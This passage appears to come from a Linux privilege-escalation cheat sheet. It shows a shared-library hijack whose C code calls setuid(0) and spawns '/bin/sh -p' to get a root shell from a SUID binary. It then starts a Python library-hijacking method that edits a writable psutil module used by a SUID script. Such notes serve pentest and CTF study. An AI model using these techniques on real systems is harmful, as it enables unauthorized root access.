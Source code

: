     gcc src.c -fPIC -shared -o /development/libshared.so
    # compile shared object

    ./payroll
    # executing the binary now gives us root shell
    ```

    ```c
    #include<stdio.h>
    #include<stdlib.h>
    #include<unistd.h>

    void dbquery() {
        printf("Malicious library loaded\n");
        setuid(0);
        system("/bin/sh -p");
    } 
    ```

* Python library hijacking:

    * Wrong write permissions:

        ```sh
        ls -l mem_status.py
        # Python script has SUID bit set

        less mem_status.py
        # the script uses the 'psutil' module and its function 'virtual_memory()'
        
        # check in which file this function is defined
        # 'pip3 show psutil' gives us location of psutil module
        # so we can search for the exact function in this location
        grep -r "def virtual_memory" /usr/local/lib/python3.8/dist-packages/psutil/*
        
        # lists out some python files, check if they have write permissions
        ls -l /usr/local/lib/python3.8/dist-packages/psutil/__init__.py

        # we have write permissions for this file
        vim /usr/local/lib/python3.8/dist-packages/psutil/__init__.py
